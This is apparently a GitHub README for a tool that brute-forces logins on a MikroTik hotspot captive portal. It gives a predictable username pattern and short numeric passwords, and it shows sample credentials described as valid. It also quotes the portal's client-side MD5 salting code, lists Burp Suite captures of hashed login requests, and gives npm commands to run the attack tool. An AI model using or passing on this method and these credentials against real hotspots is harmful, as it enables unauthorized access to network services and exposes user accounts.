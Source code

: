### Brute-force attack login

The attack was only tested for the users of ***1 hour***, it is necessary to see the patron of the users of ***a month***.

## Analysis

----------
## Login
Example data valid.

```
username=1hjtd
password=263
```
![alt text](https://github.com/Juve-yescas/Brute-force-Mikrotik/blob/master/Information/Welcome-one.png "User 1hjtd")

```
username=1hmtw
password=423
```

![alt text](https://github.com/Juve-yescas/Brute-force-Mikrotik/blob/master/Information/Welcome-two.png "User 1hmtw")

#### The ip addres is this 

![alt text](https://github.com/Juve-yescas/Brute-force-Mikrotik/blob/master/Information/DHCP-example.png "My dchp config")

## How to attack?

The patron is <kbd>1h</kbd> for username

```
username=1hjtd
password=263
```

> By right clicking > View source code for this page,
You can see that the values to create a secure password are changing on the function doLogin(), this complicates attacking directly through a direct post you plain text, the post should be done with the password already encrypted.

```
document.sendin.password.value = hexMD5('\075' + document.login.password.value + '\532\742\124\412\422\545\965\162\943\173\846\825\842\857\139\184');
document.sendin.password.value = hexMD5('\123' + document.login.password.value + '\624\077\174\275\022\150\314\272\032\201\122\170\154\311\235\102');
```

### Capturing request with burpsuite

```
username=1hjtd&password=6e7651ee150309d7da25cb30329368e2&dst=&popup=true
username=1hjtd&password=9f788a4e692207e71cdffbb921b8f8f1&dst=&popup=true
username=1hjtd&password=9f788a4e692207e71cdffbb921b8f8f1&dst=&popup=true
username=1hjtd&password=1d44ed0532a8d99b41ea8864352d9e59&dst=&popup=true
username=1hjtd&password=99b033a5dbd6ff867c265c05170e0ef1&dst=&popup=true
username=1hjtd&password=9f2611a4b2ff7f42b9e72758aeb28a52&dst=&popup=true
username=1hjtd&password=d62418f1793ab0dec2754a088d21d534&dst=&popup=true
username=1hjtd&password=d62418f1793ab0dec2754a088d21d534&dst=&popup=true
username=1hjtd&password=00cfe5b8e01a385d18a29b459f349823&dst=&popup=true
```
> **Note:** The password changes every time a request is made.

## Post example to attack

```
username: 1hjtd
password: 00cfe5b8e01a385d18a29b459f349823

burpsuite capture: 

username=1hjtd&password=00cfe5b8e01a385d18a29b459f349823&dst=&popup=true
```

## How to use this tool?

Must have installed Nodejs and internet connection.

Clone this repository and in the folder **Hack-Mikrotik-Login** execute this command.

```
$ npm install
$ npm start
```

## License [![FOSSA Status](https://app.fossa.io/api/projects/git%2Bgithub.com%2FJuvenal-yescas%2FBrute-force-Mikrotik.svg?type=shield)](https://app.fossa.io/projects/git%2Bgithub.com%2FJuvenal-yescas%2FBrute-force-Mikrotik?ref=badge_shield)

[![FOSSA Status](https://app.fossa.io/api/projects/git%2Bgithub.com%2FJuvenal-yescas%2FBrute-force-Mikrotik.svg?type=large)](https://app.fossa.io/projects/git%2Bgithub.com%2FJuvenal-yescas%2FBrute-force-Mikrotik?ref=badge_large)
